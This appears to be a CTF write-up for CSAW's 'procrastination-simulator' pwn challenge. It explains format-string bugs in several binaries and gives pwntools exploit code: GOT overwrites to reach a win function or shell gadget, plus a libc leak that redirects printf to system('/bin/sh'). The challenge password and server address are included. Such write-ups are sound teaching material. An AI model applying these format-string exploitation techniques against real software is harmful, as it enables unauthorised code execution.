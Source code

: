 ## procrastination-simulator
```
procrastination-simulator
point: 430
Oh noes! I partied all weekend and now it's an hour before the CTF ends and I have school deadlines tonight too. Can you help me write 60 reports and pwn 50 challenges by Sunday afternoon? nc auto-pwn.chal.csaw.io 11001 with password cd80d3cd8a479a18bbc9652f3631c61c
```
`nc auto-pwn.chal.csaw.io 11001` then enter the password, we get 
the binary like this:
![given_binary](https://user-images.githubusercontent.com/87422359/133044852-ecc1638d-c82f-4e11-8d92-853e5ead68f6.png)
<br />
we write it to a file then convert it to binary by `xxd -r`<br />
When we pwned and got shell, there was a message on the server give
us another address, port, password. <br />
the binaries are changed 3 times(at port 16, 32, 46), we 
need to pwn all them to get the flag. <br />
<br />
### file_4
![image](https://user-images.githubusercontent.com/87422359/133046641-66cd8285-9bfe-43e3-b136-dd8d0048f8c0.png)
<br />
![image](https://user-images.githubusercontent.com/87422359/133046725-49740c3c-6793-4e24-b3c3-e9ff5ca6392c.png)
<br />
![image](https://user-images.githubusercontent.com/87422359/133046834-aa56ed9a-f9d8-405b-8413-418d22211268.png)
<br />
there are a fsb, and function to get shell.
<br />
what we need to do is overwrite `win()`'s address to `put's got`.
<br />
payload:
<br />
```python
payload  = 'aa'
payload += p32(e.got["exit"])
payload += '%' + str((e.sym['win'] & 0xffff) - 6) + 'd%6$hn'
## send password
r.sendlineafter("password", "cd80d3cd8a479a18bbc9652f3631c61c")
r.sendlineafter('generate a report', payload)
```
![image](https://user-images.githubusercontent.com/87422359/133050190-6ddfbe51-010a-45f7-9050-3f643c7d9c16.png)
### file_2
![image](https://user-images.githubusercontent.com/87422359/133050630-44a7fde5-2f7e-4564-aa28-1c4c01472dd4.png)
<br />
we still have fsb but there is no win function this time.
<br />
![image](https://user-images.githubusercontent.com/87422359/133051357-b5211b7d-7eea-44a1-b9e1-7767891d97c8.png)
<br />
but there is a `/bin/sh` in the binary so i decide to dive into the binary
and i got this
<br />
![image](https://user-images.githubusercontent.com/87422359/133052191-8987d866-8f9f-48fe-84b0-45d96c346765.png)
<br />
same way, but `0x401534` insteal of `win()`'s address.
### file_1
![image](https://user-images.githubusercontent.com/87422359/133052449-5108e99f-145f-4eb2-9523-4c3c1c2b351a.png)
<br />
this time we got 3 times fsb but `PIE enable`, what we
need to do is leak `libc base`, leak `code base` then overwrite `system`'s address
to `printf got`, then enter `/bin/sh`, programe will run `printf('/bin/sh')`
but printf is overwritten so we get `system('/bin/sh')`
<br />
payload:
<br />
```python
## stage 1
payload  = ''
payload += '%45$p %7$p'
p.sendlineafter('> ', payload)

## leaking
p.recvuntil("ntents of Report 1:\n")
leak = int(p.recvuntil(' ').strip(), 16)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
log.info("leak :%s:" % hex(leak))
libc.sym['win'] = one[0]
libc.address = leak - 0x0270b3
log.info("base :%s:" % hex(libc.address))
log.info("win :%s:" % hex(libc.sym['win']))
leak1 = int(p.recvline().strip(), 16) - 156
log.info("target :%s:" % hex(leak1))

## stage 2
payload  = ''
payload += '%' + str(libc.sym["system"] >> 16 & 0xff) + 'd%13$hhn'
payload += '%' + str((libc.sym["system"] & 0xffff) - (libc.sym["system"] >> 16 & 0xff)) + 'd%12$hn'
payload  = payload.ljust(32,'a')
payload += p64(leak1)
payload += p64(leak1 + 2)
p.sendlineafter('s batch!!', payload)

## stage 3
payload  = '/bin/sh'
sleep(1)
p.sendline(payload)
```
